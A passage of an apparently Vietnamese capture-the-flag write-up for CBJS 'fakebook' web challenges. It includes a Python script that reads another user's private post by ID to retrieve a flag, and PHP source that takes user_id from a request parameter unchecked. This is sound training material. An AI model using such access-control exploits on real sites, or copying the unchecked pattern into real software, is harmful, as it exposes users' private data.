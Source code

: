 ```python
    url + '/index.php?action=login',
    data=data,
    verify=False
)

print(response.text) # verify

# đăng bài viết ở dạng riêng tư -> public = 0
data_content = {
    'content': 'cuong',
    'public': 0
}

response = session.post(
    url + '/post.php?action=create',
    data=data_content,
    verify=False,
)

print(response.text) # verify

# hiển thị bài đăng có id  của crush
response = session.get(
    url + '/post.php?action=read&id=38405b03f1c29368beaaa94f24a1c893',
    verify=False,
)

print(response.text) # hiển thị response có flag
```

![image](https://hackmd.io/_uploads/ryUFJTQKa.png)

![image](https://hackmd.io/_uploads/BkZ5kTmt6.png)

và mình có được flag: **CBJS{FAKE_FLAG_FAKE_FLAG}**

## fakebook-web-4

![image](https://hackmd.io/_uploads/r1EZeaXtp.png)

### - Phân tích:

source post.php:

```php
<?php
include('libs/auth.php');
include('libs/db.php');

header('Content-Type: application/json');

$user_id = $_SESSION['user_id'];
if (isset($_GET['user_id']))
    $user_id = $_GET['user_id'];

if (!isset($_GET['action']))
    die(json_encode("Error"));

switch ($_GET['action']) {
    case 'list_posts':
        $res = select_all(
            'SELECT post_id, public FROM posts WHERE author_id = ?',
            $user_id
```